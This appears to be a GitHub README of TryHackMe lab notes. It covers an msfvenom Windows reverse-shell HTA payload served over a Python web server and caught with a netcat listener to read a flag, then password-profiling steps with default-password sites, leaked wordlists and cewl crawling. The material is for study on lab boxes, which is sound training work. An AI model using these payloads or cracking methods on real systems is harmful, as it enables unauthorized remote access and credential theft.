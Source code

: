 ***#PRACTICE ARENA:***
1. Create a reverse shell payload with msfvenom: 
   - ```msfvenom -p windows/x64/shell_reverse_tcp LHOST=<your ip> LPORT=<port#> -f hta-psh -o <file_name.hta>```
2. Establish a web server that your payload can be downloaded from: 
   - ```python3 -m http.server <port #>```
3. Set up a listener
   - ```nc -lvnp <port #>```
4. Go to the simulator web application and type in the pathway for your payload. 
   - <http://<your ip>:<port # for web server>/<filename.hta>>
5. Go back to your linux box and your listener should've picked up the connection. 
6. Move into the C-drive to find the flag: 
   - ```dir flag.txt /s``` 
7. Move into the directory containing the flag: 
   - ```cd: \Users\thm\Desktop```
8. Read the flag: 
   - ```type flag.txt```

![msfvenom hta reverse shell](https://github.com/ryangreggw/THM-BOXES/assets/25268281/fc69458a-aea9-45bc-974b-5c4340c98287)

![web server setup](https://github.com/ryangreggw/THM-BOXES/assets/25268281/3955c553-66ba-471e-8951-f97ba909ee92)

![simulator web app payload](https://github.com/ryangreggw/THM-BOXES/assets/25268281/2d778212-4ffe-4cf4-935a-7c847437aa8b)

![windows reverse shell with msfvenom](https://github.com/ryangreggw/THM-BOXES/assets/25268281/7f76d891-6b74-4011-919e-69ec446d7c48)

# PASSWORD ATTACKS BOX

## **TASK 3: PASSWORD PROFILING #1 - DEFAULT, WEAK, LEAKED, COMBINED, AND USERNAME WORDLISTS** 
#WEBSITE WITH DEFAULT PASSWORDS: 
- https://cirt.net/passwords
- https://default-password.info/
- https://datarecovery.com/rd/default-passwords/

***#WEAK PASSWORD LISTS***
- (https://github.com/danielmiessler/SecLists/tree/master/Passwords/Leaked-Databases)

***#COMBINING WORDLISTS FOR PASSWORD CRACKING:***
- ```cat file1.txt file2.txt file3.txt > combined_list.txt```
  - To remove/filter duplicated words, use ```sort``` and ```uniq```: 
    - sort combined_list.txt | uniq -u > cleaned_combined_list.txt

***#UTILIZING CRAWLING TO GENERATE A WORDLIST:***
- '''cewl -w list.txt -d 5 -m 5 http://thm.labs```
  - ```-w```: Writes the contents to the file "list.txt."
  - ```m 5```: Gathers words that are at least 5 characters.
  - ```-d 5```: This indicates the depth level of web crawling which is the number of pages the crawler will go through. 5 indicates that if there's a link on the first page, it'll go to the second page, then the third, then fourth, etc. 
  - ```http://thm.labs```: Website that we want to crawl with the "cewl" tool. 
